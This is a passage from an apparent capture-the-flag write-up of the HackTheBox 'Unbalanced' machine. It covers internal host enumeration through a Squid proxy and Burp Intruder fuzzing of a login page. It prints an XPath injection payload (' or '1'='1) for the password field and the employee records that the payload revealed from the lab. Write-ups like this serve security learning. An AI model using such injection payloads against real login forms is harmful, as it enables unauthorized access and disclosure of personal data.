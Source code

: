 * Found 3 working Host IPs -

	  172.31.179.2
	  172.31.179.3
	  172.17.0.1

  but these IPs goes on same place (`/intranet.php`) where `intranet.unbalanced.htb` goes that i found before.

* All hosts have same login page with username and passworrd field.
* I try diffrent types of injection.
* I create a simple burp intruder list of diffrent injections from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) but none of them worked on any of these hosts.
  
  __*for intercepting internal Hosts request i set squid proxy `http://10.10.10.200:3128` as [upstream proxy](https://portswigger.net/support/burp-suite-upstream-proxy-servers) in burpSuite*__

* eventually i try for 172.31.179.1 and this give an error -

	  Host temporarily taken out of load balancing for security maintenance.
	  
  * i tried `172.31.179.1/intranet.php` as all Hosts redirected here and i got that same login page.

* again, i run my intruder list and this time i found a working injection in the password field.  

## XPATH injection [1](https://portswigger.net/kb/issues/00100600_xpath-injection) [2](https://owasp.org/www-community/attacks/XPATH_Injection)

__Passowrd field is vulnerable for xpath injection__

__XPathi Payload__

	' or '1'='1
	
* get some employees details

	  rita
	  Rita Fubelli
	  rita@unbalanced.htb
	  Role: HR Manager

	  jim
	  Jim Mickelson
	  jim@unbalanced.htb
	  Role: Web Designer

	  bryan
	  Bryan Angstrom
	  bryan@unbalanced.htb
	  Role: System Administrator

	  sarah
	  Sarah Goodman
	  sarah@unbalanced.htb
	  Role: Team Leader

